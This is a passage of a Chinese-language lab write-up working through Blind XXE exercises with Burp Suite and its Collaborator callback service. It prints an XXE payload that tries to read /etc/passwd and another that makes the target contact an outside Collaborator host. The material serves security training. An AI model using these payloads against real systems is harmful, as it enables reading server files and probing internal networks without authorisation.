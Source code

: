 

![image-20221104101844857](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221104101844857.png)

**第二关完成！**

## Lab: Blind XXE with out-of-band interaction

点击 `Access the lab`,根据提示，此处根据提示需要我们使用burp 自带的dnslog 服务器。

![image-20221105204508300](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221105204508300.png)

（一）：如何使用burp自带的dnslog服务器？

进入 `Burp Suite` 后依次点击坐上角菜单栏里的Burp —> Burp Collaborator client

![image-20221105204739846](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221105204739846.png)

如下图：点击`1`处按件即可得到一个子域名，将该子域名放入构造的payload中，payload触发后点击`2`处按钮即可查询相应dnslog服务器查看是否攻击成功 

![image-20221105204930687](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221105204930687.png)

（二）靶场

简单测试功能看数据包发现在该路径下有使用XML文档，尝试进行XXE攻击，开始尝试读取文件，失败。payload如下：

```xml-dtd
<!DOCTYPE ANY [<!ENTITY content SYSTEM "file:///etc/passwd" >]>
```

![image-20221105205530778](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221105205530778.png)

尝试进行Blind XXE，发送构造的 payload 数据包后：payload如下：

```xml-dtd
<!DOCTYPE ANY[ <!ENTITY content SYSTEM "http://143mat2zjr0qvspmlpaltjdssejka8z.burpcollaborator.net">]>
```

![image-20221105205709821](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221105205709821.png)

去burp查询：点击查询，得到回显，请求被成功发出。

![image-20221105205817211](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221105205817211.png)

**通关成功！**

## Lab: Blind XXE with out-of-band interaction via XML parameter entities

看提示就知道一样的，提示说是需要用到参数实体。

![image-20221105210245434](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221105210245434.png)

老规矩，正常流程走完，发现某接口下使用了XML，进行xxe尝试：

![image-20221105210601873](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221105210601873.png)


[这里查看原理]: https://github.com/shungli923/WowBigBug/blob/main/%E5%9F%BA%E7%A1%80%E6%BC%8F%E6%B4%9E/XXE.md	"点击"